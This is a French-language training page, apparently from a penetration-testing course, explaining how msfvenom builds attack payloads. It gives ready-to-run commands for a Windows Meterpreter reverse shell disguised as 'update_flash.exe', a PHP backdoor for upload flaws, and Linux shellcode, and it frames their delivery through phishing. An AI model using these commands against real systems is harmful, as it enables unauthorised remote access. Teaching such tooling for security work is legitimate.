

# Msfvenom — La Fabrique à Virus

<div
  class="omny-meta"
  data-level="🟡 Intermédiaire"
  data-version="6.3+"
  data-time="~15 minutes">
</div>

<div style="text-align: center; margin: 0 auto;">
    
</div>

## Introduction

!!! quote "Analogie pédagogique — L'Usine d'Armement Autonome"
    Si **Metasploit** (`msfconsole`) est un centre de commandement militaire complexe depuis lequel on tire des missiles, **Msfvenom** est l'usine d'armement.
    Parfois, vous n'avez pas besoin d'un missile. Vous avez juste besoin de fabriquer une petite grenade (un fichier `.exe` ou un script Python) pour la donner à un utilisateur cible (via Phishing) ou la déposer manuellement sur un serveur (via une faille d'Upload). Msfvenom fabrique la grenade sur mesure et vous la donne dans la main.

Né de la fusion des anciens outils `msfpayload` et `msfencode`, `msfvenom` est l'outil en ligne de commande (CLI) de Metasploit dédié uniquement à la création de **Payloads**. Il prend le code malveillant brut (ex: "Connecte-toi à l'IP 10.0.0.5") et l'enveloppe dans le format de fichier de votre choix (exécutable Windows, application Android, script PowerShell, code PHP, etc.).

<br>

---

## Architecture & Mécanismes Internes

### Le Processus de Génération (Compilation)
Msfvenom n'est pas un compilateur classique (comme GCC). Il assemble des blocs de code pré-écrits (Shellcodes) et génère le fichier binaire selon le format demandé.



<br>

---

## Intégration dans la Kill Chain

| Phase Précédente | Msfvenom | Phase Suivante |
| :--- | :--- | :--- |
| **Identification (Vulnérabilité Web)** <br> (*Burp Suite*) <br> On a découvert qu'un site Web PHP autorise l'upload de fichiers sans vérifier l'extension. | ➔ **Création d'Armement (Weaponization)** ➔ <br> Génération d'un Reverse Shell PHP (`msfvenom -p php/reverse_php -f raw > shell.php`). | **Exploitation / Accès** <br> (*Netcat / Handler*) <br> On upload `shell.php` sur le site cible, on l'ouvre dans le navigateur, et la cible se connecte à nous. |

<br>

---

## Workflow Opérationnel & Lignes de Commande

La commande Msfvenom suit toujours la même logique : `msfvenom -p [payload] [OPTIONS] -f [format] -o [fichier]`.

### 1. Chercher un format ou un payload
Metasploit contient des milliers de payloads.
```bash title="Liste des formats de sortie supportés"
msfvenom --list formats
# Affiche : apk, exe, elf, msi, php, python, bash, c, csharp, etc.

msfvenom --list payloads | grep linux
```

### 2. Le Classique absolu (Reverse Shell Windows)
Générer un fichier exécutable Windows qui ouvrira une connexion Meterpreter (Staged) vers votre machine Kali (sur le port 4444).
```bash title="Création d'un malware Windows"
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.42 LPORT=4444 -f exe -o update_flash.exe
```

### 3. Le Shell Web (PHP, ASPX, JSP)
Très utilisé lors de piratages d'applications Web (Ex: WordPress, Tomcat).
```bash title="Création d'un Backdoor PHP"
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.42 LPORT=8080 -f raw -o backdoor.php
```

### 4. Le Shellcode Brut (Pour le développement d'exploit)
Si vous développez votre propre exploit (ex: Buffer Overflow en Python), vous avez besoin du "Shellcode" (les opcodes en hexadécimal) à injecter dans la mémoire.
```bash title="Génération de Shellcode en C"
msfvenom -p linux/x86/exec CMD=/bin/sh -f c -b '\x00\x0a'
```
*-b `\x00\x0a` : Bad characters. Demande à Msfvenom de générer le code SANS utiliser les octets nuls ou les sauts de ligne (qui cassent les Buffer Overflows).*

<br>

---

## Bonnes & Mauvaises Pratiques (Do's & Don'ts)

| Action | Recommandation | Explication technique |
|---|---|---|
| ✅ **À FAIRE** | **Préparer le Handler (Metasploit)** | Un payload généré par Msfvenom a besoin de "quelqu'un" qui l'écoute quand il s'exécute chez la victime. Avant que la victime ne double-clique sur le `.exe`, vous **devez** ouvrir `msfconsole` et lancer un `use exploit/multi/handler` configuré avec le même payload, la même adresse IP et le même port. C'est le récepteur. |
| ❌ **À NE PAS FAIRE** | **Croire que Msfvenom bypass l'antivirus** | Historiquement, on utilisait `msfvenom -e x86/shikata_ga_nai -i 5` pour encrypter le virus 5 fois et tromper les antivirus. C'est **terminé**. Les signatures des exécutables générés par Msfvenom (le "Template" binaire de base) sont les plus connues de la planète. L'envoi d'un `.exe` msfvenom brut sur un PC sous Windows 10/11 se soldera par une suppression instantanée par Windows Defender. |

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    Msfvenom est un outil incontournable pour l'empaquetage de charges utiles. Il transforme votre intention malveillante en un fichier utilisable sur n'importe quel système d'exploitation ou langage de programmation. Bien qu'il soit devenu obsolète pour générer des `.exe` capables de tromper les antivirus modernes, il reste l'outil numéro 1 pour générer des Web Shells, des Shellcodes pour les Buffer Overflows, ou des charges utiles pour des systèmes Linux sans EDR.

> Une fois votre charge utile exécutée et votre premier accès obtenu, vous n'êtes généralement qu'un utilisateur standard aux droits très limités. Comment devenir l'administrateur suprême de la machine ? C'est le domaine de l'élévation de privilèges, automatisé par la suite d'outils **[LinPEAS & WinPEAS →](./peas.md)**.
